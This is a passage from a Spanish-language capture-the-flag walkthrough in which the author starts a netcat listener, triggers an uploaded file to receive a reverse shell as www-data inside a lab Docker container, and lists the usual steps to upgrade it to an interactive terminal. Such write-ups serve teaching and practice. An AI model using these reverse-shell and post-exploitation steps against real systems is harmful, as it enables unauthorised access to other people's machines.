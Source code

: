 Ahí está.

Como ya la subimos, solo necesitas abrir un listener con **netcat**:
```bash
nc -nvlp 1337
listening on [any] 1337 ...
```
Y dale clic al archivo subido para que se ejecute.

Observa la **netcat**:
```bash
nc -nvlp 1337
listening on [any] 1337 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.130] 43956
Linux a34889d3b818 6.1.0-21-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.90-1 (2024-05-03) x86_64 x86_64 x86_64 GNU/Linux
 01:03:01 up 12:06,  0 user,  load average: 0.10, 0.07, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@a34889d3b818:/$
```

Listo, estamos dentro del contenedor:
```bash
www-data@a34889d3b818:/$ hostname -I
hostname -I
172.17.0.2
```

Recuerda obtener una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm
export SHELL=bash
stty rows 51 columns 189
```
Continuemos.

<br>

<h2 id="enumDock">Enumeración de Contenedor y Ganando Acceso como Root a la Máquina Víctima Vía SSH</h2>

